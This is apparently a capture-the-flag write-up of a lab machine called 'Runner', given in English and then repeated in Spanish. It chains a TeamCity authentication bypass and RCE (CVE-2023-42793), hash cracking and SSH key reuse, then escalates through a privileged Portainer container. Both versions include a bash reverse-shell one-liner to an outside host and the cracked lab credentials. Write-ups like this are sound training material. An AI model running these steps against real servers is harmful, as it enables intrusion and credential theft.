







Exploitation Summary
Exploitation process: The target machine was running TeamCity version 2023.05.3, a CI/CD platform by JetBrains, which was vulnerable to CVE-2023-42793. This critical vulnerability consists of two separate security flaws: an authentication bypass allowing unauthenticated admin user creation, and a path traversal vulnerability leading to remote code execution.
By exploiting the authentication bypass, I created an administrative account on the TeamCity instance. From there, I leveraged the RCE vulnerability to gain initial shell access as the tcuser within a Docker container. Inside the container, I discovered database credentials and SSH keys stored in TeamCity's data directory, which allowed me to escalate horizontally to the john user on the host system.
After gaining SSH access, I discovered Portainer running locally on ports 9000 and 9443. Using credentials found earlier (matthew:piper123), I authenticated to Portainer and created a privileged Docker container with the host's root filesystem mounted. This container-based privilege escalation technique gave me full access to the host system's files, allowing me to read the root flag.
Technologies/Exploits: TeamCity authentication bypass and RCE (CVE-2023-42793), Docker container escape via Portainer misconfiguration, SSH key reuse, password hash cracking.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and services on the target machine:

The scan reveals several interesting services. Port 80 is running an HTTP server, and there appear to be additional services on higher ports. I add runner.htb to my /etc/hosts file to facilitate further enumeration.
Web Enumeration - Discovering TeamCity
Running whatweb against the target provides additional information about the web application:
http://runner.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ],
Email[sales@runner.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)],
IP[10.10.11.13], JQuery[3.5.1], PoweredBy[TeamCity!], Script,
Title[Runner - CI/CD Specialists], X-UA-Compatible[IE=edge], nginx[1.18.0]
The output reveals that the application is powered by TeamCity, a CI/CD platform. I perform virtual host enumeration using gobuster and discover a subdomain:
gobuster vhost -u http://runner.htb -w /path/to/wordlist
The scan identifies teamcity.runner.htb returning a 401 status code. I add this to my /etc/hosts file and navigate to it in my browser.
TeamCity Login Portal
Accessing teamcity.runner.htb presents a login portal for TeamCity, a CI/CD software by JetBrains:

The login page displays the TeamCity version at the bottom. This is critical information for identifying potential vulnerabilities. TeamCity is a continuous integration and deployment platform available at https://www.jetbrains.com/teamcity/.
Vulnerability Research - CVE-2023-42793
After identifying the TeamCity version, I search for known vulnerabilities and discover CVE-2023-42793, a critical unauthenticated remote code execution vulnerability: https://nvd.nist.gov/vuln/detail/CVE-2023-42793
This vulnerability has an interesting backstory. According to threat intelligence research, the advanced persistent threat (APT) group APT29 attempted to exploit this vulnerability in the wild before it was fully disclosed. Security researchers documented their activities in this analysis: TeamCity Intrusion Saga - APT29 Suspected Exploiting CVE-2023-42793
Understanding the Vulnerability
CVE-2023-42793 actually consists of two separate vulnerabilities that can be chained together:
- Authentication Bypass: An endpoint allows unauthenticated attackers to create administrative accounts
- Path Traversal to RCE: Once authenticated, an attacker can exploit a path traversal vulnerability in file editing functionality to achieve remote code execution
I locate a proof-of-concept exploit on GitHub: https://github.com/Zenmovie/CVE-2023-42793
This repository contains two separate scripts:
CVE-2023-42793_admin.sh - Creates an administrative userCVE-2023-42793_rce.sh - Exploits the file editing endpoint for RCE
Initial Access - Creating an Admin Account
I execute the first script to create an administrative user account:
bash CVE-2023-42793_admin.sh http://teamcity.runner.htb 80
The script successfully creates an admin account with the following credentials:
login: Zenmovie
password: Zenmovie
With these credentials, I can now authenticate to the TeamCity interface and explore the application.
TeamCity Investigation
After logging in, I begin enumerating the TeamCity instance. I discover several user accounts configured in the system:

The identified users are:
While exploring the TeamCity configuration, I also find a public SSH key (id_rsa.pub). A public key alone isn't immediately useful, but it suggests that the corresponding private key might be stored somewhere within the system or container.
Remote Code Execution
With administrative access established, I attempt to use the RCE exploit from the same repository. However, I encounter issues with the original script - it only executes single commands and doesn't properly handle special characters, spaces, or command separators like ${IFS}.
After testing different approaches, I find an alternative exploit that works more reliably: https://github.com/B4l3rI0n/CVE-2023-42793
Using this improved exploit, I successfully obtain a reverse shell as the tcuser account. I set up a netcat listener:
nc -lvnp 4444
Then execute the exploit to send a reverse shell:
python3 exploit.py -u http://teamcity.runner.htb -c "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
I receive the connection and now have shell access as tcuser.
Container Discovery
After gaining initial access, I perform basic enumeration:
id
sudo -l
ls -la /home
The results reveal some interesting findings:
- No
sudo permissions available
- The
/home directory is empty
- The filesystem structure suggests I'm inside a Docker container
This makes sense - TeamCity is often deployed in containerized environments.
Credential Discovery
I navigate to the TeamCity data directory to search for sensitive information:
cd /data/teamcity_server/datadir/system
ls -la
Inside this directory, I find a log file named buildserver.log containing database operations. Examining this file reveals SQL INSERT statements with usernames and password hashes:
cat buildserver.log | grep -i insert | grep -i password
I extract the password hashes and identify them as bcrypt hashes (hash mode 3200 in hashcat). I save these to a file and attempt to crack them:
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
After some time, hashcat successfully cracks one of the hashes, revealing credentials for the user matthew:
matthew:piper123
SSH Key Discovery
Continuing my enumeration of the TeamCity data directory, I explore the SSH keys storage location:
cd /data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys
ls -la
Here I discover a private SSH key. I copy this key to my attacking machine and set the appropriate permissions:
chmod 600 id_rsa
I attempt to use this key with the users I've identified. Testing against john proves successful:
ssh -i id_rsa john@runner.htb
The authentication succeeds, and I gain SSH access to the host system as john. From here, I can retrieve the user flag.
Privilege Escalation - Portainer Discovery
After establishing SSH access, I enumerate local services to identify potential privilege escalation vectors:
ss -tuln
The output reveals several services listening on localhost:

Among these local services, I notice ports 9000 and 9443 (HTTPS). These are the default ports for Portainer, a Docker management interface. I set up an SSH tunnel to access these services:
ssh -i id_rsa -L 9443:127.0.0.1:9443 john@runner.htb
Now I can access the Portainer interface by navigating to https://127.0.0.1:9443 in my browser.
Portainer Authentication
The Portainer interface presents a login page. I attempt to authenticate with the credentials I found earlier:
john:[password] - Failedmatthew:piper123 - Success!
The credentials for matthew grant me access to the Portainer dashboard, where I can manage Docker containers on the host system.
Privilege Escalation via Portainer
With access to Portainer, I can create privileged containers with access to the host filesystem. I find a useful article explaining this technique: Use Portainer for Privilege Escalation
The article is from 2021, and the Portainer UI has changed slightly, but the core concept remains the same. The modern interface requires creating a volume before creating the container.
Creating the Volume
First, I create a Docker volume that will mount the host's root filesystem:

The volume configuration specifies:
- Driver: local
- Device: /
- Type: bind
Creating the Privileged Container
Next, I create a new container with the following configuration:

Key settings for the container:
- Image: alpine (a lightweight Linux distribution)
- Interactive & TTY: Enabled
- Privileged mode: Enabled
- Console: Interactive
Mounting the Volume
In the volume mapping section, I attach the previously created volume to the container:

The volume is mapped as follows:
- Container path: /mnt/root
- Volume: The previously created volume pointing to the host's root filesystem
After deploying the container, I can access its console through Portainer's web interface. From within this privileged container, the entire host filesystem is accessible at /mnt/root.
Root Access
I navigate to the root directory on the host system:
cd /mnt/root/root
ls -la
From here, I have full read/write access to the host's root filesystem with elevated privileges. I can read the root flag and perform any other necessary actions.
This technique works because Portainer allows authenticated users to create privileged containers with arbitrary volume mounts. By mounting the host's root filesystem into a container running as root, I effectively gain root-level access to all files on the host system, bypassing normal access controls.
Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba TeamCity versión 2023.05.3, una plataforma CI/CD de JetBrains, vulnerable a CVE-2023-42793. Esta vulnerabilidad crítica consiste en dos fallos de seguridad separados: un bypass de autenticación que permite la creación de usuarios administradores sin autenticación, y una vulnerabilidad de path traversal que conduce a ejecución remota de código.
Explotando el bypass de autenticación, creé una cuenta administrativa en la instancia de TeamCity. Desde allí, aproveché la vulnerabilidad de RCE para obtener acceso inicial de shell como tcuser dentro de un contenedor Docker. Dentro del contenedor, descubrí credenciales de base de datos y claves SSH almacenadas en el directorio de datos de TeamCity, lo que me permitió escalar horizontalmente al usuario john en el sistema host.
Tras conseguir acceso SSH, descubrí que Portainer se ejecutaba localmente en los puertos 9000 y 9443. Usando credenciales encontradas anteriormente (matthew:piper123), me autentiqué en Portainer y creé un contenedor Docker privilegiado con el sistema de archivos raíz del host montado. Esta técnica de escalada de privilegios basada en contenedores me dio acceso completo a los archivos del sistema host, permitiéndome leer la flag de root.
Tecnologías/Exploits: Bypass de autenticación y RCE en TeamCity (CVE-2023-42793), escape de contenedor Docker mediante mala configuración de Portainer, reutilización de claves SSH, crackeo de hashes de contraseñas.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios en la máquina objetivo:
El escaneo revela varios servicios interesantes. El puerto 80 ejecuta un servidor HTTP, y parece haber servicios adicionales en puertos superiores. Añado runner.htb a mi archivo /etc/hosts para facilitar la enumeración posterior.
Enumeración Web - Descubriendo TeamCity
Ejecutando whatweb contra el objetivo proporciona información adicional sobre la aplicación web:
http://runner.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ],
Email[sales@runner.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)],
IP[10.10.11.13], JQuery[3.5.1], PoweredBy[TeamCity!], Script,
Title[Runner - CI/CD Specialists], X-UA-Compatible[IE=edge], nginx[1.18.0]
La salida revela que la aplicación está impulsada por TeamCity, una plataforma CI/CD. Realizo enumeración de hosts virtuales usando gobuster y descubro un subdominio:
gobuster vhost -u http://runner.htb -w /ruta/al/wordlist
El escaneo identifica teamcity.runner.htb devolviendo un código de estado 401. Lo añado a mi archivo /etc/hosts y navego a él en mi navegador.
Portal de Login de TeamCity
Al acceder a teamcity.runner.htb aparece un portal de login para TeamCity, un software CI/CD de JetBrains:
La página de login muestra la versión de TeamCity en la parte inferior. Esta es información crítica para identificar vulnerabilidades potenciales. TeamCity es una plataforma de integración y despliegue continuo disponible en https://www.jetbrains.com/teamcity/.
Investigación de Vulnerabilidades - CVE-2023-42793
Tras identificar la versión de TeamCity, busco vulnerabilidades conocidas y descubro CVE-2023-42793, una vulnerabilidad crítica de ejecución remota de código sin autenticación: https://nvd.nist.gov/vuln/detail/CVE-2023-42793
Esta vulnerabilidad tiene una historia interesante. Según investigación de inteligencia de amenazas, el grupo de amenaza persistente avanzada (APT) APT29 intentó explotar esta vulnerabilidad en la naturaleza antes de que fuera completamente divulgada. Los investigadores de seguridad documentaron sus actividades en este análisis: TeamCity Intrusion Saga - APT29 Suspected Exploiting CVE-2023-42793
Entendiendo la Vulnerabilidad
CVE-2023-42793 realmente consiste en dos vulnerabilidades separadas que pueden encadenarse:
- Bypass de Autenticación: Un endpoint permite a atacantes sin autenticación crear cuentas administrativas
- Path Traversal a RCE: Una vez autenticado, un atacante puede explotar una vulnerabilidad de path traversal en la funcionalidad de edición de archivos para lograr ejecución remota de código
Localizo una prueba de concepto del exploit en GitHub: https://github.com/Zenmovie/CVE-2023-42793
Este repositorio contiene dos scripts separados:
CVE-2023-42793_admin.sh - Crea un usuario administrativoCVE-2023-42793_rce.sh - Explota el endpoint de edición de archivos para RCE
Acceso Inicial - Creando una Cuenta Admin
Ejecuto el primer script para crear una cuenta de usuario administrativo:
bash CVE-2023-42793_admin.sh http://teamcity.runner.htb 80
El script crea exitosamente una cuenta admin con las siguientes credenciales:
login: Zenmovie
password: Zenmovie
Con estas credenciales, ahora puedo autenticarme en la interfaz de TeamCity y explorar la aplicación.
Investigación de TeamCity
Tras iniciar sesión, comienzo enumerando la instancia de TeamCity. Descubro varias cuentas de usuario configuradas en el sistema:
Los usuarios identificados son:
Mientras exploro la configuración de TeamCity, también encuentro una clave SSH pública (id_rsa.pub). Una clave pública por sí sola no es inmediatamente útil, pero sugiere que la clave privada correspondiente podría estar almacenada en algún lugar dentro del sistema o contenedor.
Ejecución Remota de Código
Con acceso administrativo establecido, intento usar el exploit de RCE del mismo repositorio. Sin embargo, encuentro problemas con el script original - solo ejecuta comandos únicos y no maneja adecuadamente caracteres especiales, espacios o separadores de comandos como ${IFS}.
Tras probar diferentes enfoques, encuentro un exploit alternativo que funciona de manera más fiable: https://github.com/B4l3rI0n/CVE-2023-42793
Usando este exploit mejorado, consigo exitosamente una reverse shell como la cuenta tcuser. Configuro un listener de netcat:
nc -lvnp 4444
Luego ejecuto el exploit para enviar una reverse shell:
python3 exploit.py -u http://teamcity.runner.htb -c "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
Recibo la conexión y ahora tengo acceso shell como tcuser.
Descubrimiento del Contenedor
Tras obtener acceso inicial, realizo enumeración básica:
id
sudo -l
ls -la /home
Los resultados revelan algunos hallazgos interesantes:
- No hay permisos
sudo disponibles
- El directorio
/home está vacío
- La estructura del sistema de archivos sugiere que estoy dentro de un contenedor Docker
Esto tiene sentido - TeamCity se despliega a menudo en entornos contenedorizados.
Descubrimiento de Credenciales
Navego al directorio de datos de TeamCity para buscar información sensible:
cd /data/teamcity_server/datadir/system
ls -la
Dentro de este directorio, encuentro un archivo de log llamado buildserver.log conteniendo operaciones de base de datos. Al examinar este archivo revela sentencias SQL INSERT con nombres de usuario y hashes de contraseñas:
cat buildserver.log | grep -i insert | grep -i password
Extraigo los hashes de contraseñas y los identifico como hashes bcrypt (modo hash 3200 en hashcat). Los guardo en un archivo e intento crackearlos:
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
Tras algún tiempo, hashcat consigue crackear uno de los hashes, revelando credenciales para el usuario matthew:
matthew:piper123
Descubrimiento de Clave SSH
Continuando mi enumeración del directorio de datos de TeamCity, exploro la ubicación de almacenamiento de claves SSH:
cd /data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys
ls -la
Aquí descubro una clave SSH privada. Copio esta clave a mi máquina atacante y establezco los permisos apropiados:
chmod 600 id_rsa
Intento usar esta clave con los usuarios que he identificado. Probar contra john resulta exitoso:
ssh -i id_rsa john@runner.htb
La autenticación tiene éxito, y obtengo acceso SSH al sistema host como john. Desde aquí, puedo recuperar la flag de usuario.
Escalada de Privilegios - Descubrimiento de Portainer
Tras establecer acceso SSH, enumero servicios locales para identificar vectores potenciales de escalada de privilegios:
ss -tuln
La salida revela varios servicios escuchando en localhost:
Entre estos servicios locales, noto los puertos 9000 y 9443 (HTTPS). Estos son los puertos por defecto para Portainer, una interfaz de gestión de Docker. Configuro un túnel SSH para acceder a estos servicios:
ssh -i id_rsa -L 9443:127.0.0.1:9443 john@runner.htb
Ahora puedo acceder a la interfaz de Portainer navegando a https://127.0.0.1:9443 en mi navegador.
Autenticación en Portainer
La interfaz de Portainer presenta una página de login. Intento autenticarme con las credenciales que encontré anteriormente:
john:[contraseña] - Fallidomatthew:piper123 - ¡Éxito!
Las credenciales de matthew me otorgan acceso al panel de Portainer, donde puedo gestionar contenedores Docker en el sistema host.
Escalada de Privilegios mediante Portainer
Con acceso a Portainer, puedo crear contenedores privilegiados con acceso al sistema de archivos del host. Encuentro un artículo útil explicando esta técnica: Use Portainer for Privilege Escalation
El artículo es de 2021, y la interfaz de usuario de Portainer ha cambiado ligeramente, pero el concepto central sigue siendo el mismo. La interfaz moderna requiere crear un volumen antes de crear el contenedor.
Creando el Volumen
Primero, creo un volumen Docker que montará el sistema de archivos raíz del host:
La configuración del volumen especifica:
- Driver: local
- Device: /
- Type: bind
Creando el Contenedor Privilegiado
A continuación, creo un nuevo contenedor con la siguiente configuración:
Configuraciones clave para el contenedor:
- Imagen: alpine (una distribución Linux ligera)
- Interactive & TTY: Habilitado
- Modo privilegiado: Habilitado
- Consola: Interactiva
Montando el Volumen
En la sección de mapeo de volúmenes, adjunto el volumen previamente creado al contenedor:
El volumen se mapea de la siguiente manera:
- Ruta del contenedor: /mnt/root
- Volumen: El volumen previamente creado apuntando al sistema de archivos raíz del host
Tras desplegar el contenedor, puedo acceder a su consola a través de la interfaz web de Portainer. Desde dentro de este contenedor privilegiado, todo el sistema de archivos del host es accesible en /mnt/root.
Acceso Root
Navego al directorio root en el sistema host:
cd /mnt/root/root
ls -la
Desde aquí, tengo acceso completo de lectura/escritura al sistema de archivos raíz del host con privilegios elevados. Puedo leer la flag de root y realizar cualquier otra acción necesaria.
Esta técnica funciona porque Portainer permite a usuarios autenticados crear contenedores privilegiados con montajes de volumen arbitrarios. Al montar el sistema de archivos raíz del host en un contenedor ejecutándose como root, efectivamente obtengo acceso de nivel root a todos los archivos en el sistema host, evitando los controles de acceso normales.